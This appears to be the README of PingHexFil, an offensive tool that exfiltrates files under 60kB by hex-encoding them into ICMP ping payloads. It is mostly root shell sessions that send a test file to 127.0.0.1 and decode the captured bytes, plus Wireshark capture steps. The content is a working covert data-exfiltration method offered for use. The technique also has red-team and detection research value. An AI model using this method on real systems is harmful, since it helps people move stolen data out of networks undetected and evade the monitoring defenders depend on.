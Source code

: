 # PingHexFil
Exfiltration of small files using ICMP
## Data Exfiltration using ICMP
*NOTE* This ONLY works with files smaller than 60kB. This is due to the packet length restrictions and updates will come to break up files into 60kB chunks in the near future.
## Usage
The following is done with the example file, `examples/example1.txt`
### Step 1: Send the Bytes via ICMP
```
root@demon:~/pinghexfil# ls
decoder.py  examples  images  payloads  pinghexfil.py  README.md
root@demon:~/pinghexfil# cat examples/example1.txt 
This is a test file.
OK.
root@demon:~/pinghexfil# ./pinghexfil.py 127.0.0.1 examples/example1.txt 
[+] Opening file: examples/example1.txt
[+] Sending data as: 54686973206973206120746573742066696c652e0a4f4b2e0a
.
Sent 1 packets.
Exiting.
root@demon:~/pinghexfil# 
```
### Step 2: Gather Bytes via Wireshark
Simply right click on the data and choose **Select->as a Hex Stream** and paste the output into a file, as I did in the file `payloads/example1.txt`

![Wireshark Screenshot](images/wireshark.png)

### Step 3: Decode the Bytes
```
root@demon:~/pinghexfil# ./decoder.py payloads/example1.txt 
[+] Opening file: payloads/example1.txt
[+] file data: 54686973206973206120746573742066696c652e0a4f4b2e0a

This is a test file.
OK.

root@demon:~/pinghexfil# 
```
